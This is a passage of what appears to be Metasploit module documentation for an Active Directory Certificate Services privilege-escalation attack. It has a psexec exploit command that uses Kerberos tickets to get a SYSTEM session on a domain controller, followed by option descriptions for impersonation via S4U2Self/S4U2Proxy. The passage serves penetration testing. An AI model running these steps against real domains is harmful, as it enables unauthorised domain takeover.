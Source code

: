 - Verify the privilege escalation is successful using `psexec` module. It will
  automatically use the TGS cached from the previous steps.

1. Do: `use windows/smb/psexec`
1. Do: `exploit rhosts=<remote host> lhost=<local host> smbuser=administrator smbdomain=<FQDN domain name> SmbAuth=kerberos SmbRhostname=<DC hostname in FQDN format> DomainControllerRhost=<DC IP>`
1. Verify you got a session as the `NT AUTHORITY\SYSTEM` user

## Options

### DC_NAME

The name of the domain controller being targeted (must match RHOST)

### LDAP_PORT

The LDAP port. The default is 636 on an encrypted channel and 389 on a non-encrypted channel.

### CA
The target certificate authority. The default value used by AD CS is `$domain-DC-CA`.

### USERNAME

The username to authenticate with. This will be used for SMB, LDAP and Kerberos authentications.

### PASSWORD

The password to authenticate with. This will be used for SMB, LDAP and Kerberos authentications.

### COMPUTER_NAME

The computer name to add. A random name will be generated if not set.

### COMPUTER_PASSWORD

The password for the new computer. A random password will be generated if not set.

### SPN

The Service Principal Name used to request an additional impersonated TGS,
format is `<service_name>/<hostname>.<FQDN>` (e.g. `ldap/dc01.mydomain.local`).
Note that, independently of this option, a TGS for `cifs/<DC_NAME>.<DOMAIN>`
will always be requested. This option is only available if the `PRIVESC` action
is selected (default).

### IMPERSONATE

The user on whose behalf a TGS is requested (it will use S4U2Self/S4U2Proxy to
request the ticket). Set to `Administrator` by default. This option is only
available if the `PRIVESC` action is selected (default).

## ACTIONS
